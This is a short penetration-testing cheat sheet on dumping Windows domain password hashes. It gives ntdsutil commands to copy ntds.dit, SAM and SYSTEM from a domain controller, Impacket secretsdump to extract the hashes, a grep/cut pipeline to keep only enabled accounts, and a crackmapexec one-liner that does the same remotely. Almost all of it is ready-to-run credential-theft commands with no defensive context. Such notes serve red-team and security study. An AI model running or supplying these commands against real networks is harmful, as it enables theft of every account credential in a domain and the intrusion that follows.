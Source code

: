 # Dumping domain hashes

## NTDSutil&#x20;

```
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
-- or --

ntdsutil
> snapshot
> activate instance ntds
> create
> mount {GUID}
```

Then browse to the mounted directory in the C:/  and copy out the ntds.dit && SAM & SYSTEM file to your prefered location

To delete the snapshot after:

```
delete {GUID}
```

Then pull the hashes out with Impacket's Secretdump

```
impacket-secretsdump -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash -user-status -outputfile myhashes local
```

The tidy up the hashes

```
cat myhashes.ntds | grep -v "$:" | grep "status=Enabled" | cut -d'\' -f2 | cut -d"(" -f1
```

## crackmapexec

```
crackmapexec smb <DC-IP> -u <user> -p <password> --ntds
```

